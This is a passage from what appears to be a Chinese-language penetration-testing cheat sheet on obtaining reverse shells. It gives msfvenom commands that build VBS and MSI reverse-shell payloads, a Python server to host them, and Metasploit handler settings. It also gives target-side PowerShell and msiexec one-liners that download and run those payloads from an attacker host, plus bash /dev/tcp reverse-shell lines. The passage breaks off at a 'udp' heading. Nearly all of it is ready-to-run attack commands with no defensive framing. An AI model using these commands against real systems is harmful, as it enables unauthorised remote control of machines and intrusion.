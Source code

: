攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

**Msiexec.exe**

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.109/1.msi
```

---

## linux下获取shell

部分内容来自 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

**bash**
- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp
